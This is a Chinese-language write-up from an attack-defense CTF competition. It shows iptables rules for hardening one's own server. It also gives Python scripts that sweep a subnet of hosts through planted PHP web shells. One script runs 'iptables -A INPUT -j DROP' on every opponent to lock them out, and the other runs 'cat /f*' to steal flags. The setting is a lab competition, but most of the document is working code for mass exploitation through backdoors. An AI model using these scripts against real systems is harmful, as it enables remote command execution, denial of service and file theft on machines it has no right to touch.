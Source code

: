 ## 防御搅屎

在加固阶段，每个堡垒机都有一个Web在运行。而这些站点可能存在相应的漏洞和后门。基本上都会有shell留在隐秘的角落...

所以我们就可以通过前期搜寻到的后门，进行操作。这里直接用linux的防火墙进行关闭即可。

在正常情况下：这样的话就直接把系统的后门全杀掉了。只允许22 80 21端口可以进行访问。

首先开启 22 80 21

```
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
iptables -A INPUT -p tcp --dport 21 -j ACCEPT
```

然后关闭

```
iptables -A INPUT -j DROP
```

在手动一个个连shell搅shi的话，是非常慢的。于是写了个小脚本。

遍历整个IP段，并将防火墙开启全部屏蔽掉~~

```
import requests
url = "http://192.168.182"
port='80'
shell = "/shell.php"
passwd = "a"
payloads = {
    passwd:"system(\'iptables -A INPUT -j DROP');"
}
for i in range(1,254):
    urls = url+"."+str(i)+":"+port+shell
    print(urls+"\n")
    try:
        res = requests.post(urls,payloads,timeout=1)
        print(res.text)
    except:
        print("未找到主机")
```

# 编写批量脚本

以下脚本来自于我比赛时写的垃圾脚本，大佬勿喷。

### 1.利用后门getflag

单个shell获取flag

```
import requests

url="http://192.168.182.130/include/shell.php"
passwd="admin_ccmd"
payload = {passwd: 'system(\'cat /f*\');'}
res=requests.post(url,payload)
print(res.text)
```
